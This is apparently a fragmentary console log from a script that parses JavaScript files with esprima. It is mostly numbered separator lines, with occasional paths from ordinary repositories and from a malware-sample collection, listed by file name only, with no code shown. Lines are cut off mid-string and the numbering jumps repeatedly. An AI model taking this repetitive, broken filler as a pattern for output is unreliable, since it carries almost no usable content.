=========================================37027===========================================
=========================================37028===========================================
=========================================37029===========================================
=========================================37030===========================================
=========================================37031===========================================
==========

=========================================37115===========================================
=========================================37116===========================================
=========================================37117===========================================
=========================================37118===========================================
=========================================37119===========================================
=========================================37120===========================================
=========================================37121===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/sourcearea/lang/pt.js
=========================================37122===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/clipboard/lang/da.js
=========================================37123===========================================
===================================

=========================================37207===========================================
=========================================37208===========================================
=========================================37209===========================================
=========================================37210===========================================
=========================================37211===========================================
=========================================37212===========================================
=========================================37213===========================================
=========================================37214===========================================
=========================================37215===========================================
=========================================37216===========================================
=========================================37217===========================================
==========

=========================================37300===========================================
=========================================37301===========================================
=========================================37302===========================================
=========================================37303===========================================
=========================================37304===========================================
=========================================37305===========================================
=========================================37306===========================================
=========================================37307===========================================
data/ghempton/ember-react/example/app/components/react-outlet.js
=========================================37308===========================================
=========================================37309===========================================
===================================

=========================================37389===========================================
=========================================37390===========================================
=========================================37391===========================================
=========================================37392===========================================
=========================================37393===========================================
=========================================37394===========================================
=========================================37395===========================================
=========================================37396===========================================
=========================================37397===========================================
=========================================37398===========================================
=========================================37399===========================================
==========

=========================================37480===========================================
=========================================37481===========================================
=========================================37482===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/blockquote/lang/uk.js
=========================================37483===========================================
=========================================37484===========================================
=========================================37485===========================================
=========================================37486===========================================
=========================================37487===========================================
=========================================37488===========================================
=========================================37489===========================================
======================

=========================================37568===========================================
=========================================37569===========================================
=========================================37570===========================================
=========================================37571===========================================
=========================================37572===========================================
=========================================37573===========================================
=========================================37574===========================================
=========================================37575===========================================
=========================================37576===========================================
=========================================37577===========================================
=========================================37578===========================================
data/sca-/

=========================================37658===========================================
=========================================37659===========================================
=========================================37660===========================================
=========================================37661===========================================
=========================================37662===========================================
=========================================37663===========================================
=========================================37664===========================================
=========================================37665===========================================
=========================================37666===========================================
=========================================37667===========================================
=========================================37668===========================================
==========

=========================================37748===========================================
=========================================37749===========================================
=========================================37750===========================================
=========================================37751===========================================
=========================================37752===========================================
=========================================37753===========================================
=========================================37754===========================================
=========================================37755===========================================
=========================================37756===========================================
data/unknown/74599.js
=========================================37757===========================================
=========================================37758================================

=========================================37840===========================================
=========================================37841===========================================
=========================================37842===========================================
=========================================37843===========================================
=========================================37844===========================================
=========================================37845===========================================
=========================================37846===========================================
=========================================37847===========================================
=========================================37848===========================================
=========================================37849===========================================
=========================================37850===========================================
==========

=========================================37929===========================================
=========================================37930===========================================
=========================================37931===========================================
=========================================37932===========================================
=========================================37933===========================================
=========================================37934===========================================
=========================================37935===========================================
data/emberjs/ember.js/packages/ember-runtime/lib/controllers/controller.js
=========================================37936===========================================
=========================================37937===========================================
=========================================37938===========================================
=========================

=========================================38016===========================================
=========================================38017===========================================
=========================================38018===========================================
=========================================38019===========================================
=========================================38020===========================================
=========================================38021===========================================
=========================================38022===========================================
=========================================38023===========================================
=========================================38024===========================================
=========================================38025===========================================
=========================================38026===========================================
==========

=========================================38106===========================================
=========================================38107===========================================
=========================================38108===========================================
=========================================38109===========================================
=========================================38110===========================================
=========================================38111===========================================
=========================================38112===========================================
=========================================38113===========================================
=========================================38114===========================================
=========================================38115===========================================
=========================================38116===========================================
==========

=========================================38203===========================================
=========================================38204===========================================
data/aegif/NemakiWare/ui/public/javascripts/FooTable/js/footable.js
=========================================38205===========================================
=========================================38206===========================================
data/rancherio/ui/tests/unit/views/confirm-delete-test.js
=========================================38207===========================================
=========================================38208===========================================
data/unknown/31955.js
=========================================38209===========================================
=========================================38210===========================================
=========================================38211===========================================
=========================================3

=========================================38290===========================================
=========================================38291===========================================
=========================================38292===========================================
=========================================38293===========================================
data/Novik/ruTorrent/plugins/trafic/lang/zh-tw.js
=========================================38294===========================================
=========================================38295===========================================
=========================================38296===========================================
=========================================38297===========================================
=========================================38298===========================================
=========================================38299===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/pl

=========================================38374===========================================
=========================================38375===========================================
=========================================38376===========================================
=========================================38377===========================================
=========================================38378===========================================
=========================================38379===========================================
=========================================38380===========================================
small script 
=========================================38381===========================================
=========================================38382===========================================
=========================================38383===========================================
=========================================38384========================================

=========================================38471===========================================
=========================================38472===========================================
=========================================38473===========================================
=========================================38474===========================================
=========================================38475===========================================
=========================================38476===========================================
=========================================38477===========================================
=========================================38478===========================================
=========================================38479===========================================
=========================================38480===========================================
=========================================38481===========================================
==========

=========================================38562===========================================
=========================================38563===========================================
=========================================38564===========================================
=========================================38565===========================================
=========================================38566===========================================
=========================================38567===========================================
=========================================38568===========================================
=========================================38569===========================================
=========================================38570===========================================
=========================================38571===========================================
=========================================38572===========================================
==========

=========================================38657===========================================
=========================================38658===========================================
=========================================38659===========================================
=========================================38660===========================================
=========================================38661===========================================
=========================================38662===========================================
=========================================38663===========================================
=========================================38664===========================================
=========================================38665===========================================
=========================================38666===========================================
=========================================38667===========================================
==========

=========================================38749===========================================
=========================================38750===========================================
=========================================38751===========================================
=========================================38752===========================================
=========================================38753===========================================
=========================================38754===========================================
=========================================38755===========================================
=========================================38756===========================================
=========================================38757===========================================
=========================================38758===========================================
=========================================38759===========================================
==========

=========================================38839===========================================
=========================================38840===========================================
=========================================38841===========================================
=========================================38842===========================================
=========================================38843===========================================
=========================================38844===========================================
=========================================38845===========================================
=========================================38846===========================================
=========================================38847===========================================
=========================================38848===========================================
=========================================38849===========================================
==========

=========================================38928===========================================
=========================================38929===========================================
=========================================38930===========================================
=========================================38931===========================================
=========================================38932===========================================
=========================================38933===========================================
=========================================38934===========================================
=========================================38935===========================================
=========================================38936===========================================
=========================================38937===========================================
=========================================38938===========================================
==========

C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible set difference at position 36
  return re.compile(pattern, pyflags)
C:\ProgramData\Anaconda3\lib\site-packages\esprima\scanner.py:1040: FutureWarning: Possible set difference at position 38
  return re.compile(pattern, pyflags)


=========================================39011===========================================
=========================================39012===========================================
=========================================39013===========================================
=========================================39014===========================================
=========================================39015===========================================
=========================================39016===========================================
=========================================39017===========================================
=========================================39018===========================================
=========================================39019===========================================
=========================================39020===========================================
=========================================39021===========================================
==========

=========================================39185===========================================
=========================================39186===========================================
=========================================39187===========================================
=========================================39188===========================================
=========================================39189===========================================
data/isagalaev/highlight.js/src/languages/bash.js
=========================================39190===========================================
=========================================39191===========================================
=========================================39192===========================================
=========================================39193===========================================
=========================================39194===========================================
=========================================39195====

=========================================39359===========================================
=========================================39360===========================================
=========================================39361===========================================
=========================================39362===========================================
=========================================39363===========================================
=========================================39364===========================================
=========================================39365===========================================
=========================================39366===========================================
=========================================39367===========================================
=========================================39368===========================================
=========================================39369===========================================
==========

=========================================39449===========================================
=========================================39450===========================================
=========================================39451===========================================
=========================================39452===========================================
=========================================39453===========================================
=========================================39454===========================================
=========================================39455===========================================
=========================================39456===========================================
=========================================39457===========================================
=========================================39458===========================================
=========================================39459===========================================
==========

=========================================39540===========================================
=========================================39541===========================================
=========================================39542===========================================
=========================================39543===========================================
=========================================39544===========================================
=========================================39545===========================================
=========================================39546===========================================
=========================================39547===========================================
=========================================39548===========================================
=========================================39549===========================================
=========================================39550===========================================
==========

=========================================39624===========================================
=========================================39625===========================================
=========================================39626===========================================
=========================================39627===========================================
=========================================39628===========================================
=========================================39629===========================================
=========================================39630===========================================
=========================================39631===========================================
=========================================39632===========================================
=========================================39633===========================================
=========================================39634===========================================
==========

=========================================39713===========================================
=========================================39714===========================================
=========================================39715===========================================
=========================================39716===========================================
=========================================39717===========================================
=========================================39718===========================================
=========================================39719===========================================
=========================================39720===========================================
=========================================39721===========================================
=========================================39722===========================================
=========================================39723===========================================
==========

=========================================39803===========================================
=========================================39804===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/sourcearea/lang/fr-ca.js
=========================================39805===========================================
=========================================39806===========================================
data/datejs/Datejs/test/rememberthemilk/index.js
=========================================39807===========================================
=========================================39808===========================================
=========================================39809===========================================
=========================================39810===========================================
=========================================39811===========================================
=========================================39812==============

=========================================39899===========================================
=========================================39900===========================================
=========================================39901===========================================
=========================================39902===========================================
=========================================39903===========================================
=========================================39904===========================================
=========================================39905===========================================
=========================================39906===========================================
=========================================39907===========================================
=========================================39908===========================================
=========================================39909===========================================
==========

=========================================39992===========================================
=========================================39993===========================================
data/sca-/sails-ckeditor-sample/assets/ckeditor/plugins/undo/lang/cs.js
=========================================39994===========================================
=========================================39995===========================================
=========================================39996===========================================
=========================================39997===========================================
=========================================39998===========================================
=========================================39999===========================================
=========================================40000===========================================
=========================================40001===========================================
============================

=========================================40083===========================================
=========================================40084===========================================
=========================================40085===========================================
=========================================40086===========================================
=========================================40087===========================================
=========================================40088===========================================
=========================================40089===========================================
=========================================40090===========================================
=========================================40091===========================================
=========================================40092===========================================
=========================================40093===========================================
==========

=========================================40175===========================================
=========================================40176===========================================
=========================================40177===========================================
=========================================40178===========================================
=========================================40179===========================================
=========================================40180===========================================
=========================================40181===========================================
=========================================40182===========================================
=========================================40183===========================================
=========================================40184===========================================
=========================================40185===========================================
==========

=========================================40267===========================================
=========================================40268===========================================
=========================================40269===========================================
=========================================40270===========================================
=========================================40271===========================================
=========================================40272===========================================
=========================================40273===========================================
=========================================40274===========================================
=========================================40275===========================================
=========================================40276===========================================
=========================================40277===========================================
==========

=========================================40359===========================================
=========================================40360===========================================
=========================================40361===========================================
=========================================40362===========================================
=========================================40363===========================================
=========================================40364===========================================
=========================================40365===========================================
=========================================40366===========================================
=========================================40367===========================================
=========================================40368===========================================
=========================================40369===========================================
==========

=========================================40451===========================================
=========================================40452===========================================
=========================================40453===========================================
=========================================40454===========================================
=========================================40455===========================================
=========================================40456===========================================
=========================================40457===========================================
=========================================40458===========================================
=========================================40459===========================================
=========================================40460===========================================
=========================================40461===========================================
==========

=========================================40543===========================================
=========================================40544===========================================
=========================================40545===========================================
=========================================40546===========================================
=========================================40547===========================================
=========================================40548===========================================
=========================================40549===========================================
=========================================40550===========================================
=========================================40551===========================================
=========================================40552===========================================
=========================================40553===========================================
==========

=========================================40635===========================================
=========================================40636===========================================
=========================================40637===========================================
=========================================40638===========================================
=========================================40639===========================================
=========================================40640===========================================
=========================================40641===========================================
=========================================40642===========================================
=========================================40643===========================================
=========================================40644===========================================
=========================================40645===========================================
==========

=========================================40727===========================================
=========================================40728===========================================
=========================================40729===========================================
=========================================40730===========================================
=========================================40731===========================================
=========================================40732===========================================
=========================================40733===========================================
=========================================40734===========================================
=========================================40735===========================================
=========================================40736===========================================
=========================================40737===========================================
==========

=========================================40819===========================================
=========================================40820===========================================
=========================================40821===========================================
=========================================40822===========================================
=========================================40823===========================================
=========================================40824===========================================
=========================================40825===========================================
=========================================40826===========================================
=========================================40827===========================================
=========================================40828===========================================
=========================================40829===========================================
==========

=========================================40911===========================================
=========================================40912===========================================
=========================================40913===========================================
=========================================40914===========================================
=========================================40915===========================================
=========================================40916===========================================
=========================================40917===========================================
=========================================40918===========================================
=========================================40919===========================================
=========================================40920===========================================
=========================================40921===========================================
==========

=========================================41006===========================================
=========================================41007===========================================
=========================================41008===========================================
=========================================41009===========================================
=========================================41010===========================================
=========================================41011===========================================
=========================================41012===========================================
=========================================41013===========================================
=========================================41014===========================================
=========================================41015===========================================
=========================================41016===========================================
==========

=========================================41092===========================================
javascript-malware-collection-master\2016\20160225\20160225_2d4c7528ac86ae291b69369340391a2e.js
=========================================41093===========================================
=========================================41094===========================================
=========================================41095===========================================
=========================================41096===========================================
javascript-malware-collection-master\2016\20160225\20160225_e1952223e581814b9ecf9d174feda288.js
=========================================41097===========================================
=========================================41098===========================================
=========================================41099===========================================
=========================================41100==========================================

=========================================41156===========================================
=========================================41157===========================================
javascript-malware-collection-master\2016\20160301\20160301_332a7c0531d69a8a9030687297024eb1.js
=========================================41158===========================================
javascript-malware-collection-master\2016\20160301\20160301_34ac438c1e1f14e4663d6a89a3970b27.js
=========================================41159===========================================
=========================================41160===========================================
=========================================41161===========================================
javascript-malware-collection-master\2016\20160301\20160301_360c5bb4714cf507b5902c7039f57c06.js
=========================================41162===========================================
javascript-malware-collection-master\2016\20160301\20160301_36337a13b010e1eda8a06e

=========================================41218===========================================
javascript-malware-collection-master\2016\20160301\20160301_6ae6084853da2371be6dcd1760339712.js
=========================================41219===========================================
javascript-malware-collection-master\2016\20160301\20160301_6b3f246552c703f8cd30edded2d8d8e9.js
=========================================41220===========================================
javascript-malware-collection-master\2016\20160301\20160301_6c4f827a53a7f8b1de439ae93c559976.js
=========================================41221===========================================
javascript-malware-collection-master\2016\20160301\20160301_6cb51704f3cc9d914e18d64858621c93.js
=========================================41222===========================================
javascript-malware-collection-master\2016\20160301\20160301_6cbacec2c5b5a1675748672df3d6e55c.js
=========================================41223========================

=========================================41276===========================================
javascript-malware-collection-master\2016\20160301\20160301_a01127248485498ed3839d3199868fcf.js
=========================================41277===========================================
javascript-malware-collection-master\2016\20160301\20160301_a25666ed535d8756bbbc8ed90e6938e2.js
=========================================41278===========================================
javascript-malware-collection-master\2016\20160301\20160301_a26122e1001d0663bf1c43c37fd09e41.js
=========================================41279===========================================
javascript-malware-collection-master\2016\20160301\20160301_a2ebf8d734e56174aa00e22bb18ebce2.js
=========================================41280===========================================
javascript-malware-collection-master\2016\20160301\20160301_a34ba193786ea0a40e4352d70f572bed.js
=========================================41281========================

=========================================41324===========================================
javascript-malware-collection-master\2016\20160301\20160301_d00e4df7ab4fe593f701e9bbd58e90ea.js
=========================================41325===========================================
=========================================41326===========================================
=========================================41327===========================================
javascript-malware-collection-master\2016\20160301\20160301_d3af2272a540626f4485c42af3616fa6.js
=========================================41328===========================================
javascript-malware-collection-master\2016\20160301\20160301_d3d6ca3c2b1462e3168f8b04978fc701.js
=========================================41329===========================================
javascript-malware-collection-master\2016\20160301\20160301_d4048c9007f1a54640f2995d21573a28.js
=========================================41330==============================

javascript-malware-collection-master\2016\20160301\20160301_f851425c283892e3a26ac953d3ba5a93.js
=========================================41377===========================================
javascript-malware-collection-master\2016\20160301\20160301_fd1918c4254353d918d293f929a656e7.js
=========================================41378===========================================
javascript-malware-collection-master\2016\20160301\20160301_fdceeb160c0bda7506a1b749cf3d5188.js
=========================================41379===========================================
javascript-malware-collection-master\2016\20160301\20160301_fe94cfcd02188a046792291e1652180c.js
=========================================41380===========================================
javascript-malware-collection-master\2016\20160301\20160301_ff342057fb21f723dc43c57251139f47.js
=========================================41381===========================================
=========================================41382========================

=========================================41462===========================================
=========================================41463===========================================
=========================================41464===========================================
=========================================41465===========================================
=========================================41466===========================================
=========================================41467===========================================
=========================================41468===========================================
=========================================41469===========================================
=========================================41470===========================================
=========================================41471===========================================
=========================================41472===========================================
javascript

javascript-malware-collection-master\2016\20160307\20160307_1ccd6b96ad45bfcd743590931c7fc913.js
=========================================41548===========================================
javascript-malware-collection-master\2016\20160307\20160307_1d50844968a762711cd74fc287c2d83e.js
=========================================41549===========================================
javascript-malware-collection-master\2016\20160307\20160307_1e35d611df95f54d04585b0089d82791.js
=========================================41550===========================================
javascript-malware-collection-master\2016\20160307\20160307_1e60856f290e608b0cb781f7f36a8db6.js
=========================================41551===========================================
javascript-malware-collection-master\2016\20160307\20160307_1f96d94bcdf3c7b0845a66c439eb328c.js
=========================================41552===========================================
javascript-malware-collection-master\2016\20160307\20160307_2046143272

=========================================41601===========================================
=========================================41602===========================================
javascript-malware-collection-master\2016\20160307\20160307_4724571e91a83a477dd3495bc91d9649.js
=========================================41603===========================================
=========================================41604===========================================
javascript-malware-collection-master\2016\20160307\20160307_49178232a368e2942a8e76dd1cdecfd6.js
=========================================41605===========================================
=========================================41606===========================================
=========================================41607===========================================
javascript-malware-collection-master\2016\20160307\20160307_4af2614bcc7baa4ea82c7eacafffafab.js
=========================================41608====================================

javascript-malware-collection-master\2016\20160307\20160307_6d020cef32a43fe42edae7fa40d3a798.js
=========================================41662===========================================
=========================================41663===========================================
javascript-malware-collection-master\2016\20160307\20160307_6de875721380eecbbff9d95b7bcb763b.js
=========================================41664===========================================
javascript-malware-collection-master\2016\20160307\20160307_6e51a4d6010545b6496c1da5a4fff946.js
=========================================41665===========================================
javascript-malware-collection-master\2016\20160307\20160307_6e7e8ea8d30945ce70334ead0d011b4a.js
=========================================41666===========================================
javascript-malware-collection-master\2016\20160307\20160307_6f0ccb091abceb5c3766eeffa12119f4.js
=========================================41667========================

=========================================41721===========================================
javascript-malware-collection-master\2016\20160307\20160307_95ed0b3a141f5b9f113fd9d1afc168f5.js
=========================================41722===========================================
=========================================41723===========================================
=========================================41724===========================================
javascript-malware-collection-master\2016\20160307\20160307_986174f592121d225592146714a157cc.js
=========================================41725===========================================
javascript-malware-collection-master\2016\20160307\20160307_9a8ed415134c87119eb481c87b8ae975.js
=========================================41726===========================================
=========================================41727===========================================
javascript-malware-collection-master\2016\20160307\20160307_9c5821e9991b32232c7de0

javascript-malware-collection-master\2016\20160307\20160307_c1a81fa8a232b1ab723f244621c4e89e.js
=========================================41779===========================================
javascript-malware-collection-master\2016\20160307\20160307_c1ca598de74173e739bbf8fdc3afe838.js
=========================================41780===========================================
javascript-malware-collection-master\2016\20160307\20160307_c1d14137c8fcc931885818cad75585b3.js
=========================================41781===========================================
javascript-malware-collection-master\2016\20160307\20160307_c2acedf4bcc93b3d3db8f67e68013391.js
=========================================41782===========================================
javascript-malware-collection-master\2016\20160307\20160307_c30c381feca3acf4df97f665e465b6df.js
=========================================41783===========================================
javascript-malware-collection-master\2016\20160307\20160307_c412584b7e

=========================================41842===========================================
javascript-malware-collection-master\2016\20160307\20160307_f20bd991609f99f584fe895d3965073f.js
=========================================41843===========================================
javascript-malware-collection-master\2016\20160307\20160307_f2cbf7bfb91c80e4401a61e7f72c20e3.js
=========================================41844===========================================
javascript-malware-collection-master\2016\20160307\20160307_f3b798ae08a3085c0bd8079ec5c680f1.js
=========================================41845===========================================
javascript-malware-collection-master\2016\20160307\20160307_f669a59623bfc9983d8eb6e678ada32c.js
=========================================41846===========================================
javascript-malware-collection-master\2016\20160307\20160307_f734ec92cf90d080eb8e41d9b63e1ca0.js
=========================================41847========================

javascript-malware-collection-master\2016\20160308\20160308_18e4719aa818b69af3a24a395f46e02a.js
=========================================41902===========================================
javascript-malware-collection-master\2016\20160308\20160308_191c672786e9b2372e4deff230da5ca8.js
=========================================41903===========================================
javascript-malware-collection-master\2016\20160308\20160308_1a073dcdd27e077db548212618a749ac.js
=========================================41904===========================================
javascript-malware-collection-master\2016\20160308\20160308_1b4971407f53aef3a0b3a0c69edbe41b.js
=========================================41905===========================================
javascript-malware-collection-master\2016\20160308\20160308_1c5995413fb5aafef1f3382c8b8982f3.js
=========================================41906===========================================
javascript-malware-collection-master\2016\20160308\20160308_1c722cb9df

=========================================41958===========================================
javascript-malware-collection-master\2016\20160308\20160308_3c9df7978ccb23e1683cccc164c6b016.js
=========================================41959===========================================
javascript-malware-collection-master\2016\20160308\20160308_3cb6f84917891947b2d3da8d9932e89d.js
=========================================41960===========================================
javascript-malware-collection-master\2016\20160308\20160308_3d920cd3170837b10188b0e550ad08ce.js
=========================================41961===========================================
=========================================41962===========================================
javascript-malware-collection-master\2016\20160308\20160308_3e672b14b86509230fd2c031d09bd174.js
=========================================41963===========================================
javascript-malware-collection-master\2016\20160308\20160308_3f70c31173a7a73b

javascript-malware-collection-master\2016\20160308\20160308_5bfc6100bb368f87d0c7bcb0b8634a7b.js
=========================================42016===========================================
=========================================42017===========================================
javascript-malware-collection-master\2016\20160308\20160308_5c75bac34e6655d241e098a33783bd66.js
=========================================42018===========================================
javascript-malware-collection-master\2016\20160308\20160308_5cd720b8c70b96a4aeb1c2afc404c772.js
=========================================42019===========================================
javascript-malware-collection-master\2016\20160308\20160308_5ceb846fee8e168947df813d82436fbe.js
=========================================42020===========================================
javascript-malware-collection-master\2016\20160308\20160308_5d52a790d2b8cc15c43fb1d64cca1550.js
=========================================42021========================

=========================================42062===========================================
javascript-malware-collection-master\2016\20160308\20160308_7113677bdc4d40664ed4a365e0d5e7e3.js
=========================================42063===========================================
javascript-malware-collection-master\2016\20160308\20160308_711a70ba25050e6b184a7389f445113b.js
=========================================42064===========================================
javascript-malware-collection-master\2016\20160308\20160308_727524df206ca1fcebff6e660a4eabd4.js
=========================================42065===========================================
=========================================42066===========================================
javascript-malware-collection-master\2016\20160308\20160308_72cb9c7ddde242c3dd6d1dd779f849c0.js
=========================================42067===========================================
javascript-malware-collection-master\2016\20160308\20160308_733a8907808f0b2b

javascript-malware-collection-master\2016\20160308\20160308_8f11afbf34f8c6e7f9297275bbe94dfb.js
=========================================42118===========================================
javascript-malware-collection-master\2016\20160308\20160308_8f69fda859031942fa26032844165317.js
=========================================42119===========================================
javascript-malware-collection-master\2016\20160308\20160308_8f961b5e727e32c63b9530669b0c0a44.js
=========================================42120===========================================
javascript-malware-collection-master\2016\20160308\20160308_90c7d6bd44648dc3e9f41f367c1ddd07.js
=========================================42121===========================================
javascript-malware-collection-master\2016\20160308\20160308_917c100aad4356f998e71b0518e332f0.js
=========================================42122===========================================
=========================================42123========================

javascript-malware-collection-master\2016\20160308\20160308_b1ebc105123f5271280bc8df4d9a7786.js
=========================================42180===========================================
javascript-malware-collection-master\2016\20160308\20160308_b2389863205391dccc870b5f1a570151.js
=========================================42181===========================================
javascript-malware-collection-master\2016\20160308\20160308_b2ac2b90e7cf0845c9b15f1619db67fd.js
=========================================42182===========================================
javascript-malware-collection-master\2016\20160308\20160308_b380dbf9269107d9f680d8b76d6694e2.js
=========================================42183===========================================
javascript-malware-collection-master\2016\20160308\20160308_b3a9c4466401ecc4529251ab34348209.js
=========================================42184===========================================
javascript-malware-collection-master\2016\20160308\20160308_b3b69b3cce

javascript-malware-collection-master\2016\20160308\20160308_cadeb44dd3a16632764c53e396ddaef4.js
=========================================42228===========================================
javascript-malware-collection-master\2016\20160308\20160308_cd7f3a0962e65b42f944215114a8dee5.js
=========================================42229===========================================
javascript-malware-collection-master\2016\20160308\20160308_ce01a6bfffa6f8166f8d421d9245faec.js
=========================================42230===========================================
javascript-malware-collection-master\2016\20160308\20160308_ce85fa1372b944bc3043291b4a6a98ca.js
=========================================42231===========================================
javascript-malware-collection-master\2016\20160308\20160308_cf05d5d4ab519a45570291d9b1534f66.js
=========================================42232===========================================
javascript-malware-collection-master\2016\20160308\20160308_d1288d9b8b

=========================================42290===========================================
javascript-malware-collection-master\2016\20160308\20160308_f66cc880c78e12e503b99d657ecbe02a.js
=========================================42291===========================================
javascript-malware-collection-master\2016\20160308\20160308_f6ee68f061c99c7fedc1c333503fcef2.js
=========================================42292===========================================
javascript-malware-collection-master\2016\20160308\20160308_f72dd42bc0613091a79f8e8b9150e875.js
=========================================42293===========================================
javascript-malware-collection-master\2016\20160308\20160308_f77dc4f489c0c019557102d2a1de19c8.js
=========================================42294===========================================
javascript-malware-collection-master\2016\20160308\20160308_f873a4d63e0813064e7849bb9b120523.js
=========================================42295========================

=========================================42353===========================================
javascript-malware-collection-master\2016\20160309\20160309_185fa5a7967181b8a8161e6f41d947c9.js
=========================================42354===========================================
javascript-malware-collection-master\2016\20160309\20160309_18aa2b6beba4eed1352b5c41a1e982ea.js
=========================================42355===========================================
javascript-malware-collection-master\2016\20160309\20160309_192324bdbe163233c7aee6f76493f196.js
=========================================42356===========================================
javascript-malware-collection-master\2016\20160309\20160309_1a33a25b4ab4829e23de409220b66313.js
=========================================42357===========================================
javascript-malware-collection-master\2016\20160309\20160309_1a96941971eb9fcf3bb75cb92c9bac9d.js
=========================================42358========================

=========================================42404===========================================
javascript-malware-collection-master\2016\20160309\20160309_333482372205d2915ed3a57b9aaeaa63.js
=========================================42405===========================================
javascript-malware-collection-master\2016\20160309\20160309_34fe8adc695f79209189475f59ba7b79.js
=========================================42406===========================================
javascript-malware-collection-master\2016\20160309\20160309_36e147f2631003d6cdf6102a146a90bb.js
=========================================42407===========================================
javascript-malware-collection-master\2016\20160309\20160309_379f8a6415b6aab012da7dc0cec238c1.js
=========================================42408===========================================
=========================================42409===========================================
javascript-malware-collection-master\2016\20160309\20160309_38264f381b260014

=========================================42461===========================================
javascript-malware-collection-master\2016\20160309\20160309_527896830cb8edea52ab824b375c9c13.js
=========================================42462===========================================
=========================================42463===========================================
javascript-malware-collection-master\2016\20160309\20160309_535e5003795434d838956e00eb2007c5.js
=========================================42464===========================================
javascript-malware-collection-master\2016\20160309\20160309_545cebcd905acd17e7b95daf5dfa4232.js
=========================================42465===========================================
javascript-malware-collection-master\2016\20160309\20160309_54e15557e58f73a5182ed8d36e239c6a.js
=========================================42466===========================================
javascript-malware-collection-master\2016\20160309\20160309_54e24bb9ee468c13

javascript-malware-collection-master\2016\20160309\20160309_7347c1db64f3fd5f6c28ceef702d4e16.js
=========================================42517===========================================
javascript-malware-collection-master\2016\20160309\20160309_7362983ec78ce4b60751698e05b02b61.js
=========================================42518===========================================
javascript-malware-collection-master\2016\20160309\20160309_73b9cda58588d2c48fe9f6b8cf8f8f3c.js
=========================================42519===========================================
javascript-malware-collection-master\2016\20160309\20160309_73d1490b18fdb38772f2ed664022aadd.js
=========================================42520===========================================
javascript-malware-collection-master\2016\20160309\20160309_73df3ed33fccd3ecfac45bb360f31a02.js
=========================================42521===========================================
javascript-malware-collection-master\2016\20160309\20160309_741d280b12

=========================================42569===========================================
javascript-malware-collection-master\2016\20160309\20160309_926f722a685303533b455802a349b107.js
=========================================42570===========================================
javascript-malware-collection-master\2016\20160309\20160309_92832044e491cac06972ed5dbe66b2e8.js
=========================================42571===========================================
javascript-malware-collection-master\2016\20160309\20160309_942ecd4326ddde480e6faf16abc656d7.js
=========================================42572===========================================
=========================================42573===========================================
javascript-malware-collection-master\2016\20160309\20160309_955d9d99096e115456dd88728a5990fe.js
=========================================42574===========================================
javascript-malware-collection-master\2016\20160309\20160309_95838cdeef5e816f

=========================================42635===========================================
javascript-malware-collection-master\2016\20160309\20160309_c17144b64cef0416b2745430514f31f0.js
=========================================42636===========================================
javascript-malware-collection-master\2016\20160309\20160309_c1a8671750e53040cba93d56d33c3029.js
=========================================42637===========================================
javascript-malware-collection-master\2016\20160309\20160309_c1e1d2969b1a7e7bac4c725efb07e01e.js
=========================================42638===========================================
javascript-malware-collection-master\2016\20160309\20160309_c26accc02696b5a632a48a5c3d85fe3b.js
=========================================42639===========================================
javascript-malware-collection-master\2016\20160309\20160309_c2d09b974500f72bf404bf01c3d43d14.js
=========================================42640========================

=========================================42690===========================================
javascript-malware-collection-master\2016\20160309\20160309_e27e41d36b1113e3fc1d8030d5383fcd.js
=========================================42691===========================================
javascript-malware-collection-master\2016\20160309\20160309_e2905e8e13fc132bd7ecb5f150c7b512.js
=========================================42692===========================================
javascript-malware-collection-master\2016\20160309\20160309_e3ec539c40258b9fe64256b762473847.js
=========================================42693===========================================
javascript-malware-collection-master\2016\20160309\20160309_e3fe363dac23c7b824a3a16c08090777.js
=========================================42694===========================================
javascript-malware-collection-master\2016\20160309\20160309_e41982113ecc0065ae67324116c5e8a3.js
=========================================42695========================

=========================================42745===========================================
=========================================42746===========================================
=========================================42747===========================================
=========================================42748===========================================
=========================================42749===========================================
=========================================42750===========================================
=========================================42751===========================================
=========================================42752===========================================
=========================================42753===========================================
=========================================42754===========================================
=========================================42755===========================================
==========

=========================================42853===========================================
javascript-malware-collection-master\2016\20160311\20160311_1363e9c6f80c4675b90b8b1c366de611.js
=========================================42854===========================================
=========================================42855===========================================
javascript-malware-collection-master\2016\20160311\20160311_140457038d335a9744bb63ee512e809d.js
=========================================42856===========================================
javascript-malware-collection-master\2016\20160311\20160311_141cda69dccef24d0be3ed72a21dcbf8.js
=========================================42857===========================================
=========================================42858===========================================
javascript-malware-collection-master\2016\20160311\20160311_1b36afbed817923b3547577ef0bb9732.js
=========================================42859==============================

javascript-malware-collection-master\2016\20160311\20160311_418fed09d68448d0dde4b6ef5af8e5bb.js
=========================================42910===========================================
=========================================42911===========================================
javascript-malware-collection-master\2016\20160311\20160311_42bf17a9de9ad644f8c6c99f737c6130.js
=========================================42912===========================================
javascript-malware-collection-master\2016\20160311\20160311_42d2a6e1d51d73074f17a47ebdc2429f.js
=========================================42913===========================================
javascript-malware-collection-master\2016\20160311\20160311_4418b052e2eac7769e536fd888a10971.js
=========================================42914===========================================
javascript-malware-collection-master\2016\20160311\20160311_44ddf11d5f19c87bc840dbb9d9216696.js
=========================================42915========================

javascript-malware-collection-master\2016\20160311\20160311_67ebadc4604f998bd4a4aea3fb7bf828.js
=========================================42965===========================================
javascript-malware-collection-master\2016\20160311\20160311_684bba4a231c542f7328a22466000eb9.js
=========================================42966===========================================
javascript-malware-collection-master\2016\20160311\20160311_6aa495dd235e376a7924434726822a43.js
=========================================42967===========================================
javascript-malware-collection-master\2016\20160311\20160311_6b12b8d49887f2e013a553701eacd1e4.js
=========================================42968===========================================
javascript-malware-collection-master\2016\20160311\20160311_6bc492a8d8ce1cd641519720b13f1167.js
=========================================42969===========================================
javascript-malware-collection-master\2016\20160311\20160311_6bf911e1ee

=========================================43023===========================================
javascript-malware-collection-master\2016\20160311\20160311_9925544b39c49401ef8a5c135893f6ba.js
=========================================43024===========================================
javascript-malware-collection-master\2016\20160311\20160311_99f32b336789c89b9a712ab311fa7bf5.js
=========================================43025===========================================
javascript-malware-collection-master\2016\20160311\20160311_9a486bd8a79f37a19f3ce1ba1b903e46.js
=========================================43026===========================================
javascript-malware-collection-master\2016\20160311\20160311_9a952934d6dfa0cc8da99032d8408457.js
=========================================43027===========================================
javascript-malware-collection-master\2016\20160311\20160311_9ae51a4716b883385adf4fbf385281fd.js
=========================================43028========================

